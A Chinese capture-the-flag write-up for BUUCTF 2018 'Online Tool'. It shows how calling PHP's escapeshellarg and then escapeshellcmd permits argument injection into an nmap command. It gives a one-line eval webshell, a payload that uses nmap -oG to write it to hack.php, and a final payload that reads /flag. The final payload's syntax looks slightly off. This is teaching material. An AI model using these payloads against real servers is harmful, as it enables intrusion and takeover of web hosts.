


# [[BUUCTF 2018]Online Tool](https://buuoj.cn/challenges#[BUUCTF%202018]Online%20Tool)

## 知识点

- RCE 远程代码执行漏洞
- 漏洞点：`escapeshellarg`和`escapeshellcmd`**顺序**使用

## RCE 远程代码执行漏洞

### 漏洞利用

- 当设备没有在输入口做输入处理，攻击者可以利用`RCE`，直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统
- 我们常见的路由器、防火墙、入侵检测等设备的`web`管理界面上，一般会给用户提供一个`ping`操作的`web`界面，用户从`web`界面输入目标`IP`，提交后，后台会对该`IP`地址进行一次`ping`测试，并返回测试结果。

### 常用命令

1. 常用系统执行命令
```bash
system() 
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
```
2. 系统命令拼接方式

- `|`：管道符
- `&`：commandA & commandB 先运行命令A，然后运行命令B
- `||`：commandA || commandB 运行命令A，如果失败则运行命令B


## 解题过程

1. 首先观察题目，有个`php`和`RCE`标签
2. 题目给了一段源码   
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];   # remote_addr和x_forwarded_for 服务器获取ip用的
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);  # __FILE__:脚本根路径,并进行高亮
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host); # GET方法传递参数值给变量host，通过了两个 escapeshellarg 和 escapeshellcmd 过滤之后，使用system系统命令执行nmap
}
```
3. 整段代码中比较“可疑”的代码就是：
```php
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
```
- `escapeshellarg()`: 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数
- `escapeshellcmd()`：对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。
    - 会在特殊字符前面插入`\`
    ```
    &
    #
    ;
    `
    |
    *
    ?
    ~
    < >
    ^
    () [] {}
    $
    \
    \x0A   # \r
    \xFF
    ```
    - `'` 和 `"` 仅在不配对的时候被插入`\`。 
    - 在 `Windows` 平台上，`所有这些字符`以及 `%` 和 `!` 字符都会被空格代替
4. 所以如果想要利用`RCE`漏洞，那么就需要绕过`escapeshellarg()`和`escapeshellcmd()`，[详见](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
5. 输入正常的参数：`?host=127.0.0.1`，返回：
```php
you are in sandbox 4d949dbe7095f734ebd052c1c843d411Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-01 01:46 UTC Nmap scan report for localhost (127.0.0.1) Host is up (0.00045s latency). Not shown: 99 closed ports PORT STATE SERVICE 80/tcp open http Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```
- 获取了文件夹：`4d949dbe7095f734ebd052c1c843d411`
6. `namp -oG`：使用这个命令可以将一句话木马加入到文件中
```bash
<?php @eval($_POST["hack"]);?> -oG hack.php
# 将 <?php @eval($_POST["hack"]);?> 写入 hack.php
```
7. 想要真正执行的命令应该为：
```
nmap -T5 -sT -Pn --host-timeout 2 -F 127.0.0.1 <?php @eval($_POST["hack"]);?> -oG hack.php
```
8. `payload`：`?host=<?php @eval($_POST["hack"]);?> -oG hack.php`，语句变为
```
nmap -T5 -sT -Pn --host-timeout 2 -F '\<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack.php'
```
关键命令变成了一串字符串
9. 所以加上`''`，闭合`'`
10. `payload`：
```
?host=' <?php echo `cat /flag`);?> -oG hack.php '
```
构建成功，在目录：`60c11ec7d871344ad92fb3f119387254`下    

       

11. 执行`60c11ec7d871344ad92fb3f119387254/hack.php`     

    

## 参考资料

- [[BUUCTF 2018]Online Tool（超详细解析payload）](https://blog.csdn.net/weixin_44348894/article/details/105520481)
- [Online Tool writeup1](https://www.cnblogs.com/Cl0ud/p/12192230.html)
- [Online Tool writeup2](https://blog.csdn.net/qq_26406447/article/details/100711933)
- [RCE(远程代码执行漏洞)原理及漏洞利用](https://blog.csdn.net/weixin_46706771/article/details/118893434)
- [利用/绕过 PHP escapeshellarg/escapeshellcmd函数](https://www.anquanke.com/post/id/107336)
- [谈谈escapeshellarg参数绕过和注入的问题](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [Webshell和一句话木马](https://www.cnblogs.com/csnd/p/11807741.html)